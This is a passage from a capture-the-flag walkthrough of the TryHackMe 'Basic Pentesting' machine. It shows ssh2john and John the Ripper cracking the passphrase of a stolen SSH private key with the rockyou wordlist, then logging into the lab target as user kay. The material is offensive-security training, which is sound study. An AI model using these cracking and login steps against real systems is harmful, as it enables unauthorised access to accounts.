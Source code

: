 <br />

This appears to be an encrypted RSA file we currently do not have the passphrase to, meaning we will have to do some more work before we can put it to good use.

<br />
<br />

## 6. RSA file decryption

<br />

We can decrypt the contents of the private RSA key using `ssh2john` and export the decrypted data to a separate file that we can crack using `John The Ripper`.

```
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  ssh2john kay_id_rsa > kay_temp 
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt kay_temp 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  john --show kay_temp 
kay_id_rsa:*******

1 password hash cracked, 0 left
```

<br />

Connect to the target machine using the RSA key and passphrase we just obtained.

```
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  ssh -i kay_id_rsa kay@10.10.192.97
Enter passphrase for key 'kay_id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Tue Jun 14 19:18:43 2022 from 10.8.76.102
kay@basic2:~$ id
uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
kay@basic2:~$ whoami
kay
```
